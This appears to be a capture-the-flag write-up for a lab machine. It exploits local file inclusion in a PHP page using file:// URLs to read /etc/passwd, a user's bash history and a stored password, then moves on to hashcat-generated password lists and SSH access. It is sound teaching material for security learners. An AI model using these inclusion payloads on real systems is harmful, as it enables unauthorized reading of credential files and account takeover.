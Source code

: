 ```php
```
###### 1. As we read the function 'sanitize_input' it removes '../' and then removes './'<br>2. We see the 'sanitize_input' being used after 'preg_match' php built-in function that searches for expressions in strings<br>3. So is going to avoid us from inputting symbols, numbers before letters.
###### However we could still do this
```
curl http://target-ip/index.php?page=file:///var/www/html/index.php
```
###### That worked but now lets do...
```
curl http://target-ip/index.php?page=file:///etc/passwd
```
###### Output:
```
.....
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```
###### Ha ha, we get users, blue and red.
Step 3:<br>
###### Lets try to get files in blue's home directory
```
curl http://target-ip/index.php?page=file:///home/blue/.bashrc
```
###### Nothing Interesting.
```
curl http://target-ip/index.php?page=file:///home/blue/.bash_history
```
###### Output:
```
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```
###### Wow, we see hashcat creating a password list from one password that is stored in .reminder file
```
curl http://target-ip/index.php?page=file:///home/blue/.reminder
```
###### We got what looks like a password, Nice 😃<br>Output:
```
sup3r_p@s$w0rd!
```
Step 4:
###### Lets ssh into blue using that password since its in user blue's directory. We are blue team after all 🤨
```
ssh blue@target-ip
```
###### Yes!😲 We got in... Urh not for long. The password does not work anymore :(<br>Maybe thats why hashcat created a password list from the one we found.<br>Lets find out
```
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```
###### Output:
```
```